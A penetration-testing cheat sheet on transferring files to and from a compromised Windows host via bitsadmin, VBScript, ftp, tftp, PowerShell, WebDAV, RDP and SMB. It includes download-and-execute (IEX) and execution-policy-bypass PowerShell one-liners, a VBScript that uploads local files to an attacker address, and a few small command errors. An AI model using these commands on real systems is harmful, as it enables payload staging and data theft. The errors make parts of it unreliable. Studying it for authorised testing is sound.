

# Pentest file transfer cheat sheet for non-interactive shell in a client


When Windows is a client and Linux/Unix is a server




## Tips

- In Kali Linux there are many useful exe files in `/usr/share/windows-binaries`. If you can only do ftp/tft - use it once to transfer `nc.exe` (or `wget.exe`) - it'l be more convinient in the end
- Use `mode binary` in `ftp` and `tftp`
	- If you upload/download an exe file and after execution get error `This program cannot be run in DOS mode.` - that is probably because of wrong transfer mode
	- Some clients does not support `mode binary` (like some Microsoft `ftp` clients)
	- Try `tftp` instead of `ftp` 


## HTTP server methods

- python
	- `python3 -m http.server <port>`
	- `python -m SimpleHTTPServer <port>`
- php
	- `php -S <ip>:<port>`
- ncat
	- `ncat --keep-open -l -p <port> -c "printf 'HTTP/1.1 200 OK\r\n\r\n'; cat ~/evil.html"`


# Methods


## Bitsadmin

- **Server** setup - any HTTP server method
- **Client** commands in `cmd.exe`
```
bitsadmin /transfer n http://<ip_to_upload>/file.txt C:\Windows\Temp\file.txt
```

-------------------------------

## vbs (Visual Basic Script)

- **Server setup** in `bash`
	- via python
	```bash
	python -m SimpleHTTPServer 8090
	```
- **Client** commands in cmd.exe (change `<ip_address>`,`<file_name>`) to create **download** script
	```cmd
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
	echo Err.Clear >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	echo http.Open "GET", strURL, False >> wget.vbs
	echo http.Send >> wget.vbs
	echo varByteArray = http.ResponseBody >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
	echo strData = "" >> wget.vbs
	echo strBuffer = "" >> wget.vbs
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
	echo Next >> wget.vbs
	echo ts.Close >> wget.vbs
	```
	- correct file size
		- 990 wget.vbs
	- usage
	```cmd
	cscript wget.vbs http://<ip_address>:8090/<file_name> <file_name>
	```

- **Client** commands in cmd.exe to create **upload** script (change `<ip_to_upload>`)

	```cmd
	echo Dim strURL > wget_u.vbs
	echo Dim HTTP >> wget_u.vbs
	echo Dim dataFile >> wget_u.vbs
	echo Dim dataRequest >> wget_u.vbs
	echo Dim objStream >> wget_u.vbs
	echo strURL = "http://<ip_to_upload>/" >> wget_u.vbs
	echo Set HTTP = CreateObject("Microsoft.XMLHTTP") >> wget_u.vbs
	echo Set objStream = CreateObject("ADODB.Stream") >> wget_u.vbs
	echo objStream.Type = 2 >> wget_u.vbs
	echo objStream.Open >> wget_u.vbs
	echo objStream.LoadFromFile "http.txt" >> wget_u.vbs
	echo dataFile = objStream.ReadText >> wget_u.vbs
	echo dataRequest = "dataFile=" ^& dataFile >> wget_u.vbs
	echo HTTP.open "POST", strURL, False >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded" >> wget_u.vbs
	echo HTTP.setRequestHeader "Content-Length", Len(dataRequest) >> wget_u.vbs
	echo WScript.Echo "Now uploading file G:\Http\http.txt" >> wget_u.vbs
	echo HTTP.send dataRequest >> wget_u.vbs
	echo WScript.Echo HTTP.responseText >> wget_u.vbs
	echo Set HTTP = Nothing >> wget_u.vbs
	```
	- usage

-------------------------------

## ftp (File Transfer Protocol)

- about tool and protocol
	- default server ports: 20, 21
	- use mode `binary` whenewher you can
- **Server**	setup in `bash`
	- _Method 1_ (via pure-ftpd package)
	```bash
	apt-get update && apt-get install pure-ftpd -y
	groupadd ftpgroup
	useradd -g ftpgroup -d /dev/null ftpuser 
	mkdir -p /home/ftpuser
	pure-pw useradd ftpuser -u ftpuser -d /home/ftpuser
	pure-pw mkdb
	```
	With `pure-pw useradd` you must setup a password for a user (it can be blank)
	```bash
	cd /etc/pure-ftpd/auth/
	ln -s ../conf/PureDB 60pdb
	chown -R ftpuser:ftpgroup /home/ftpuser
	/etc/init.d/pure-ftpd restart
	```
	- _Method 2_ via python module `python-pyftpdlib ` (flag `-w` allows to write in server's folder)
	```bash
	apt-get install python-pyftpdlib  
	python -m pyftpdlib -p 21 -w
	```
	- _Method 3_ via `msf-ftp-server`
	```bash
	msf console
	use auxiliary/server/ftp
	set FTPROOT <path_to_ftp_dir>
	exploit 
	```
- **Client** commands in `cmd.exe`
	- to **download** a file
	```cmd
	echo open <IP> > ftp_get.txt
	echo user <username> <pass> >> ftp_get.txt
	echo binary >> ftp_get.txt
	echo GET <filename> >> ftp_get.txt
	echo bye >> ftp_get.txt
	```
	```cmd
	ftp -s:ftp_get.txt
	```
	- to **upload** a file
	```cmd
	echo open <IP> > ftp_put.txt
	echo user <username> >> ftp_put.txt
	echo binary >> ftp_get.txt
	echo PUT <filename> >> ftp_put.txt
	echo bye >> ftp_put.txt
	```
	```cmd
	ftp -s:ftp_put.txt
	```
	- to **download** a file if server is setup with _Method 2_ via python lib
	```cmd
	echo open <IP> > ftp_get.txt
	echo user anonymous >> ftp_get.txt
	echo AAA >> ftp_get.txt
	echo binary >> ftp_get.txt
	echo get <filename> >> ftp_get.txt
	echo bye >> ftp_get.txt
	```
	```cmd
	ftp -v -n -s:ftp_get.txt
	```


-------------------------------

## tftp (Trivial File Transfer Protocol)

- about tool and protocol
	- default server port - 69
	- TFTP is not included by default on newer versions of Windows. If you want to, you can actually enable TFTP from the command line:
		- `pkgmgr /iu:"TFTP"`
- **Server** setup
	```bash
	apt install atftpd
	mkdir -p /home/tftp
	atftpd --daemon --port 69 /home/tftp
	```
- **Client** commands in `cmd.exe`
	- to upload a file (change `ip_address`,`<filename>`)
	```cmd
	tftp -i <ip_address> put <filename>
	```
	- to download a file (change `ip_address`,`<filename>`)
	```cmd
	tftp -i <ip_address> get <filename>
	```

-------------------------------
	

## PowerShell

- **Server** setup - any HTTP server method
- **Client** commands in `powershell.exe` to **download** a file
	- Way 1
		- `(new-object System.Net.WebClient).DownloadFile('//<ip_address>/<filename>','d:\data\<where_to_put_filename>')`
	- Way 2
		- `Invoke-WebRequest "https://<ip_address>/<filename>" -OutFile "C:\Windows\Temp\<where_to_put_filename>"`
	- Way 3
		- `IEX(New-Object Net.WebClient).downloadString('http://<address>/<filename>')`
- **Client** commands in `cmd.exe` to **download** a file
	- `powershell -exec bypass -c "(new-object System.Net.WebClient).DownloadFile('http://<ip_address>:<port>/<filename>','C:\Backup\download\<where_to_put_filename>')"`
- **Client** commands in `cmd.exe` to **upload** a file
	- `powershell -exec bypass -c "Invoke-RestMethod -Uri http://<ip_address>:<port> -Method Post -InFile C:\Users\Public\test.TXT"`


-------------------------------

## Webdav


- **Server** setup - any HTTP server method
	- On kali linux install wsgidav and cheroot
		- `pip install wsgidav cheroot`
	- Start the wsgidav on a restricted folder:
		- `mkdir -p /home/webdav_folder/share`
		- `wsgidav --host=0.0.0.0 --port=80 --root=/home/webdav_folder --auth anonymous`
- **Client** commands in `cmd.exe` to mount the folder (in order to **upload/download**)
	- `net use x: \\YOUR_IP_ADDRESS\share`
 
Reference: https://github.com/mar10/wsgidav


-------------------------------

## meterpeter


-------------------------------

## rdp

- **Client** commands in `bash` to mount a folder (**download/upload** any file)
	- Way 1
		- `rdeskto p<ip> -u <user> -p <pass> -r disk:<share_name_that_will_be_on_Win>=<path_to_your_lin_folder>`
	- Way 2
		- `xfreerdp /v:<ip> /u:<user> /p:<pass> /drive:<share_name_that_will_be_on_Win>,<path_to_your_lin_folder>`


-------------------------------

## smb

- **Server** setup
	- `impacket-smbserver <share_name> <directory_to_serve> -smb2support -user <username> -password <password>`
- **Client** commands in `cmd.exe`  to mount a folder (**download/upload** any file)
	- `net use X: \\<ip_address>\<share_name>`
	- `cd <share_name>:`
	- to unmount `net use X: /delete`
- **Client** commands in `powershell.exe` 
	```
	$pass = convertto-securestring '<password>' -AsPlainText -Force
	$cred = New-Object System.Management.Automation.PSCredential('<username>','$pass')
	New-PSDrive -Name ippsec -PSProvider FileSystem -Credential $cred -Root \\<ip_address_of_your_linux_machine_with_impacket>\<share_name>
	```\
	- `cd <share_name>:`


-------------------------------

# Sources

- https://blog.ropnop.com/transferring-files-from-kali-to-windows/
- https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
- https://github.com/kmkz/Pentesting/blob/master/Payload-Delivery-Cheat-Sheet
- https://ired.team/offensive-security-experiments/offensive-security-cheetsheets
- http://www.lifeoverpentest.com/2018/02/file-transfer-cheat-sheet-for.html
- http://insidetrust.blogspot.com/2010/11/ftp-transfers-from-within-non.html
- https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html
- https://blog.netspi.com/15-ways-to-download-a-file/
- https://www.asafety.fr/en/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/
- https://blog.ropnop.com/transferring-files-from-kali-to-windows
- https://www.hackingarticles.in/compressive-guide-on-file-transfer-post-exploitation/
- https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/

